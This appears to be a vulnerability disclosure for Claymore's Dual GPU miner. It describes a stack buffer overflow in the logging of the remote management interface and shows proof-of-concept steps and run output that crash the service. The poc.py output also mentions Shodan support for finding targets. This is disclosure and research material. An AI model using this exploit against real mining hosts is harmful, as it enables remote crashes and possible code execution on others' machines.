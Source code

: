 
EthDcrMiner64 comes with an optional http/tcp based remote management interface that can be enabled by providing
`-mport <[-]port>` as a commandline argument. Providing a negative port starts the remote management interface in
readonly mode. The remote management interfaces request handler checks for a list of known commands (see Remote
Management API overview). Commands are being logged to file. When the handler encounters an invalid command a logline
like `log(level, "Remote management: unknown command %s\n", request)` is being emitted. This method internally calls
`sprintf` multiple times writing to a fixed size buffer of `0x4000` (16384) bytes. Any attempt to log more than `0x4000`
bytes us causing a stack buffer overwrite. There's likely multiple occurences of the same bug within this software.

//see PoC vector: method, extrafield, psw

See attached PoC.

Proof of Concept
----------------

Prerequisites:
* compatible AMD/NVidia hardware


RCE:

1. start the miner, specify any pool and the readonly management port 3333 with a management password 123456

    #> EthDcrMiner64.exe -epool http://192.168.0.1:8545 -mport -3333

    ╔════════════════════════════════════════════════════════════════╗
    ║     Claymore's Dual ETH + DCR/SC/LBC/PASC GPU Miner v10.0      ║
    ╚════════════════════════════════════════════════════════════════╝

    ...
    Total cards: 1
    ETH - connecting to 192.168.0.1:8545
    DUAL MINING MODE ENABLED: ETHEREUM+DECRED
     DCR: Stratum - connecting to 'pasc-eu2.nanopool.org' <213.32.29.168> port 15555
    ETH: HTTP SOLO mode
    Ethereum HTTP requests time (-etht) is set to 200 ms
    Watchdog enabled
    Remote management (READ-ONLY MODE) is enabled on port 3333

     DCR: Stratum - Connected (pasc-eu2.nanopool.org:15555)
     DCR: Authorized
     DCR: 11/22/17-22:05:12 - New job from pasc-eu2.nanopool.org:15555

2. wait for it to initialize
3. run poc.py --vector=method localhost:3333 (using the "method" vector)

    #> poc.py 127.0.0.1:3333
    [poc.py -             <module>() ][    INFO] --start--
    [poc.py -             <module>() ][    INFO] # Claymore's Dual ETH + DCR/SC/LBC/PASC GPU Miner - Remote Buffer Overwrite
    [poc.py -             <module>() ][    INFO] # github.com/tintinweb
    [poc.py -         iter_targets() ][ WARNING] shodan apikey missing! shodan support disabled.
    [poc.py -             <module>() ][    INFO] [i] Target: 127.0.0.1:3333
    [poc.py -             <module>() ][    INFO] [+] connected.
    [poc.py -             <module>() ][    INFO] [+] peer disappeared. vulnerable!
    [poc.py -             <module>() ][ WARNING] error(10054, 'Eine vorhandene Verbindung wurde vom Remotehost geschlossen')
    [poc.py -             <module>() ][    INFO] --done--
